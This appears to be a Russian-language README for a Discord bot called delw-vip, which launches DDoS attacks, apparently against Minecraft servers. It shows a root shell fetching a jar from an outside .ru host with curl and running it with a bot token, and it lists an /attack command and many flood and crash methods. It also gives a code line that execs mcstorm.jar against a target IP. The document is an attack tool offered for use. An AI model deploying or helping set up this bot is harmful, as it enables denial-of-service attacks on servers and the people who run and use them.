 ```console
root@itskekoffcode:~$ curl -o delw-vip.jar http://f0652346.xsph.ru/vip.jar
root@itskekoffcode:~$ java -jar delw-vip.jar ТОКЕНБОТА
Запуск бота
Команды могут регистрироватся по часу! Возможные причины ошибок:
Вы не пригласили бота используя не только bot, но и application.commands
Не указан/неверный токен
Команды:
- /attack
- /methods (не работает)
- /credits
```
```console
root@itskekoffcode:-$ methods
Вот список методов:
join, default, legitjoin, localhost, invalidnames, longnames 
botjoiner, spoof, ping, nullping, multikiller, handshake, bighandshake, query 
bigpacket, network, randombytes, extremejoin, spamjoin, nettydowner, ram 
yoonikscry, colorcrasher, tcphit, tcpbypass, botnet, queue 
ultimatesmasher, sf, nabcry
Где default - ддос обычного бота DelW
```

> Заметка: В этом боте используется [KingDoS](https://discord.gg/mGRGpp9snr).
> Так же, рекомендуется запускать его на Windows Server. Или, если хотите на линукс, то уж, скомпильте сами.
> Поменяйте строчку [57](https://github.com/itskekoff/delw-vip/blob/f0269854e29f537ba653b48479bb8f95b36ab1d1/src/main/java/neko/itskekoff/discordddosbot/manager/impl/run.java#L57) на этот код:
```java
CommandExecutor.exec(String.format("java -jar ./server/jars/mcstorm.jar %s %d %s %d %s", ip, 340, method, time, "-1"));
```
Лю :blue_heart:
